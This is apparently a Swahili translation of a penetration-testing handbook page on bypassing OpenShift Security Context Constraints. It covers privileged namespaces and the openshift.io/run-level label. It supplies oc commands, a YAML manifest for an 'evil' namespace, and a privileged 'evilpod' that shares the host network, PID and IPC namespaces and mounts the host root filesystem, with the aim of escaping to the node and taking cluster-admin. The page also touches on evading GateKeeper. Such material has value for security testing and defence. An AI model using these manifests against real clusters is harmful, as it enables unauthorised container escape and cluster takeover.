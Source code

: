 # Openshift - SCC bypass

**Mwandishi wa awali wa ukurasa huu ni** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Majina ya Privileged

Kwa default, SCC haitumiki kwenye miradi ifuatayo:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Ikiwa utaweka pods ndani ya mojawapo ya majina haya, hakuna SCC itakayotekelezwa, ikiruhusu kuwekwa kwa pods zenye mamlaka au kuunganisha mfumo wa faili wa mwenyeji.

## Lebo ya Namespace

Kuna njia ya kuzima matumizi ya SCC kwenye pod yako kulingana na nyaraka za RedHat. Itabidi uwe na angalau moja ya ruhusa zifuatazo:

- Kuunda Namespace na Kuunda Pod kwenye Namespace hii
- Hariri Namespace na Kuunda Pod kwenye Namespace hii
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Lebo maalum `openshift.io/run-level` inawawezesha watumiaji kupita SCCs kwa programu. Kulingana na nyaraka za RedHat, wakati lebo hii inatumika, hakuna SCCs zinazotekelezwa kwenye pods zote ndani ya nafasi hiyo, kwa ufanisi kuondoa vizuizi vyovyote.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ongeza Lebo

Ili kuongeza lebo katika nafasi yako:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Ili kuunda namespace yenye lebo kupitia faili la YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sasa, pods zote mpya zilizoundwa kwenye namespace hazipaswi kuwa na SCC yoyote

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Katika ukosefu wa SCC, hakuna vizuizi kwenye ufafanuzi wa pod yako. Hii inamaanisha kuwa pod mbaya inaweza kuundwa kwa urahisi ili kutoroka kwenye mfumo wa mwenyeji.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sasa, imekuwa rahisi kupandisha mamlaka ili kufikia mfumo wa mwenyeji na hatimaye kuchukua udhibiti wa klasta nzima, kupata mamlaka ya 'cluster-admin'. Tafuta sehemu ya **Node-Post Exploitation** katika ukurasa ufuatao:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Lebo za kawaida

Zaidi ya hayo, kulingana na mipangilio ya lengo, lebo / maelezo maalum yanaweza kutumika kwa njia sawa na hali ya shambulio iliyopita. Hata kama haijafanywa kwa ajili yake, lebo zinaweza kutumika kutoa ruhusa, kuzuia au sio rasilimali maalum.

Jaribu kutafuta lebo maalum ikiwa unaweza kusoma baadhi ya rasilimali. Hapa kuna orodha ya rasilimali za kuvutia:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Orodha ya majina ya maeneo yenye mamlaka
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

Katika OpenShift, kama ilivyoonyeshwa hapo awali, kuwa na ruhusa ya kupeleka pod katika namespace yenye lebo ya `openshift.io/run-level` inaweza kusababisha kuchukuliwa kwa urahisi kwa klasta. Kutoka kwa mtazamo wa mipangilio ya klasta, kazi hii **haiwezi kuzuiwa**, kwani ni sehemu ya muundo wa OpenShift.

Hata hivyo, hatua za kupunguza kama **Open Policy Agent GateKeeper** zinaweza kuzuia watumiaji kuweka lebo hii.

Ili kupita sheria za GateKeeper na kuweka lebo hii ili kutekeleza kuchukuliwa kwa klasta, **washambuliaji wangehitaji kubaini mbinu mbadala.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
